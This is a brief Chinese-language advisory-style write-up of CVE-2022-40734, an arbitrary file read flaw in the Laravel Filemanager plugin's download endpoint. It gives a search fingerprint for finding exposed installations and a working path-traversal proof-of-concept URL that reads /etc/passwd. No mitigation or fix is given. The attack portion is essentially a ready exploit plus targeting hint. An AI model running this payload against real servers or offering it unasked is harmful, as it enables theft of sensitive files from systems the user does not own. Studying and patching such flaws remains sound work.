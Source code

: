 # Laravel Filemanager插件 download 任意文件读取漏洞 CVE-2022-40734

# Laravel Filemanager插件 download 任意文件读取漏洞 CVE-2022-40734

## 漏洞描述

Laravel Filemanager插件 download 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感数据

## 漏洞影响

```
Laravel Filemanager插件
```

## 网络测绘

```
"Laravel Filemanager"
```

## 漏洞复现

主页面

![image-20221008100131910](/images/202210081001002.png)

验证POC

```
  /laravel-filemanager/download?working_dir=%2F../../../../../../../../../../../../../../../../../../../etc/passwd
```

![image-20221008100154056](/images/202210081001131.png)

